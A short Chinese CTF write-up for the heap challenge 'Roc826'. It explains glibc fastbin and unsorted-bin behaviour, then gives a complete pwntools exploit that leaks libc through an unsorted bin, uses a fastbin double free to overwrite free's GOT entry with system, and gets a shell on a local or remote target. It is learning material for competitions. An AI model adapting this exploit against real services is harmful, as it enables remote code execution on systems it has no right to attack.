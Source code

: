 ## Roc826

- 不会堆的题，这题比赛时没做，后来照着官方wp赶紧学习一波
- 堆溢出，知识点：`double free`&`unsorted bin leak`

### 背景姿势

- glibc (<2.27)堆分配的策略：即 first-fit。在分配内存时,malloc 会先到 unsorted bin(或者fastbins) 中查找适合的被 free 的 chunk,如果没有,就会把 unsorted bin 中的所有 chunk 分别放入到所属的 bins 中,然后再去这些 bins 里去找合适的 chunk。可以看到第三次 malloc 的地址和第一次相同,即 malloc 找到了第一次 free 掉的chunk,并把它重新分配。
- fast chunk表示正在使用的长度在`32-160`(32位系统是`16-80`)的堆块，而fastbin表示长度在`32-180`范围内的已经释放的堆块

### 漏洞利用

- unsorted bin leak ：泄漏`main_arena`地址（即`__malloc_hook-0x68`）

- double free：fastbin attack覆写`free`的`got`表为`system`地址，或者改`free_hook`为`one_gadget`都可以`getshell`

  ```python
  #!/usr/bin/python
  #coding=utf-8
  #__author__:TaQini
  
  from pwn import *
  
  local_file  = './Roc826'
  local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
  remote_libc = '../libc-2.23.so'
  
  is_local = False
  is_remote = False
  
  if len(sys.argv) == 1:
      is_local = True
      p = process(local_file)
      libc = ELF(local_libc)
  elif len(sys.argv) > 1:
      is_remote = True
      if len(sys.argv) == 3:
          host = sys.argv[1]
          port = sys.argv[2]
      else:
          host, port = sys.argv[1].split(':')
      p = remote(host, port)
      libc = ELF(remote_libc)
  
  elf = ELF(local_file)
  
  context.log_level = 'debug'
  context.arch = elf.arch
  
  se      = lambda data               :p.send(data) 
  sa      = lambda delim,data         :p.sendafter(delim, data)
  sl      = lambda data               :p.sendline(data)
  sla     = lambda delim,data         :p.sendlineafter(delim, data)
  sea     = lambda delim,data         :p.sendafter(delim, data)
  rc      = lambda numb=4096          :p.recv(numb)
  ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
  uu32    = lambda data               :u32(data.ljust(4, '\0'))
  uu64    = lambda data               :u64(data.ljust(8, '\0'))
  info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))
  
  def debug(cmd=''):
      if is_local: gdb.attach(p,cmd)
  
  def add(size,cont='aaaa'):
      sla(':','1')
      sla('size?\n',str(size))
      sla('content:',cont)
  
  def delete(index):
      sla(':','2')
      sla('index?\n',str(index))
  
  def show(index):
      sla(':','3')
      sla('index?\n',str(index))
      ru('content:')
      return ru('-----------------')
  
  # info
  # gadget
  # elf, libc
  add(0x80)
  add(0x58)
  add(0x58)
  add(0x58,'/bin/sh\x00')
  
  delete(0)
  data = show(0)[:-1].ljust(8,'\0')
  log.hexdump(data)
  libcbase = u64(data) - libc.sym['__malloc_hook'] - 0x68
  info_addr('libcbase',libcbase)
  
  delete(1)
  delete(2)
  delete(1)
  debug()
  add(0x58,p64(0x601ffa)) # got[free]-14-16
  add(0x58)
  add(0x58)
  add(0x58,'aaaaaaaaaaaaaa'+p64(libcbase+libc.sym['system'])[:6])
  
  delete(3)
  
  p.interactive()
  ```

  
